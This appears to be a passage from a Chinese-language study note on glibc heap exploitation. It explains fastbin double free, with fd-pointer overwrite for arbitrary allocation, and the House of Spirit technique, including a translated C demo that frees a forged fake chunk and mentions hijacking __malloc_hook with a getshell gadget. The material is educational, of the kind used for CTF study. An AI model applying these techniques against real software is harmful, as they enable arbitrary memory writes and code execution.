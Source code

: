 前面几个malloc和free只是构造一个上面提到的链表。其实我有一点不懂改chunk_a的地址为bss_chunk怎么就改了fd了呢？还好一般题目不是这样改的，溢出改的居多。第一次malloc chunk_a，得到的指针和chunk1一致。更改chunk_a等同于更改chunk1的fd。不过这次更改不会影响下次malloc，毕竟链表在更改之前就按照fd把链表尾设为chunk2了。于是第二次malloc得到chunk2。同理，第三次malloc得到chunk1。这时候问题来了，我们知道fastbin指定链表尾是根据fd的，chunk1的fd是什么？bss_chunk，之前设置的。于是最后一次malloc成功得到想要地址的chunk，攻击完成。

值得注意的是，我们在 main 函数的第一步就进行了bss_chunk.size=0x21;的操作，这是因为_int_malloc 会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。这是个小贴士，如果因为种种原因要分配的chunk的size不对，需要先改一下才能攻击。

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果 (首先要通过验证)，这就相当于任意地址写任意值的效果。

### House Of Spirit

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配指定地址的 chunk 的目的。常见的用法是把堆块分配到`__malloc_hook`周围，然后编辑hook为getshell的gadget。

只有一个关键点——构造fastbin范围内的fake chunk，且这个fake chunk可以并入fastbin链表中。根据free的源码，有以下条件：

- fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 2 * SIZE_SZ，同时也不能大于av->system_mem 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

用一个例子说明（个人渣翻）：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "该文件演示house of spirit攻击\n");

    fprintf(stderr, "调用一次malloc让其设置好内存\n");
    malloc(1);

    fprintf(stderr, "现在覆盖一个指针，使其指向构造的fastbin区域\n");
    unsigned long long *a;
    // 这里和fastbinsY没有任何关系（不要被索引的10给误导了）——fake_chunks仅仅是一块满足分配要求的内存
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "这块区域（内存大小：%lu）包含2个堆块。第一个开始于 %p ，第二个开始于 %p。\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

    fprintf(stderr, "这块区域的chunk.size需要比区域大16（为了配合chunk data），不过还是会进入fastbin范围（64位机器上<=128）。PREV_INUSE (lsb)比特位在fastbin chunk上被free函数忽略，然而IS_MMAPPED（second lsb）和NON_MAIN_ARENA (third lsb)会有影响\n");
    fprintf(stderr, "...注意申请的大小需要根据malloc的实现四舍五入至内部大小。比如在64位机器上，0x30-0x38会被四舍五入到0x40，这样它们最后才能正常运作 \n");
    fake_chunks[1] = 0x40; // 这是size

    fprintf(stderr, " *下一个* 构造区域的chunk.size字段必须合理。即> 2*SIZE_SZ (64位上>16) && < av->system_mem（对于main arena默认<128kb），为了绕过nextsize integrity检查，不一定是fastbin大小\n");
        // fake_chunks[9]的原因是0x40的大小 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "现在我们覆盖指针为构造区域的地址，位于第一个fake chunk，%p\n", &fake_chunks[1]);
    fprintf(stderr, "... 注意有关这个堆块的 *区域* 的内存大小必须是16字节对齐\n");
    a = &fake_chunks[2];

    fprintf(stderr, "free刚才覆盖的指针\n");
    free(a);

    fprintf(stderr, "现在malloc函数会返回我们构造的fake chunk的区域，位于 %p，也就是%p！\n", &fake_chunks[1], &fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```